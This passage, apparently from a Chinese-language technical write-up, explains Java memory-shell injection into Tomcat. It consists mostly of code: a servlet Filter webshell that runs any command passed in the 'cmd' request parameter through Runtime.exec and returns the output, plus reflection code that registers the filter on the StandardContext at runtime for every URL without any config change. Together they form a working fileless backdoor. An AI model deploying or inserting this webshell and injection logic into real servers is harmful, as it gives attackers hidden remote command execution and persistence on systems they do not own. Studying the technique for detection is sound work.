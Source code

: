 ```java
```

其实复杂的ASM代码，本质是生成以下这样的类的字节码

```java
public class ShellFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        if (req.getParameter("cmd") != null) {
            byte[] bytes = new byte[1024];
            Process process = Runtime.getRuntime().exec(req.getParameter("cmd"));
            int len = process.getInputStream().read(bytes);
            servletResponse.getWriter().write(new String(bytes, 0, len));
            process.destroy();
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
}
```

生成字节码后写入classpath中对应的地方，加载和实例化`Filter`的时候直接`Class.forName`就可以

```java
// 反射调用
Class<?> c = standardContext.getClass().forName(tmpName);
Filter filter = (Filter) c.newInstance();

// 以下是注册filter的逻辑
FilterDef filterDef = new FilterDef();
filterDef.setFilter(filter);
filterDef.setFilterName(finalName);
filterDef.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(filterDef);

FilterMap filterMap = new FilterMap();
filterMap.addURLPattern("/*");
filterMap.setFilterName(finalName);
filterMap.setDispatcher(DispatcherType.REQUEST.name());

standardContext.addFilterMapBefore(filterMap);

Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
constructor.setAccessible(true);
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

filterConfigs.put(finalName, filterConfig);
```
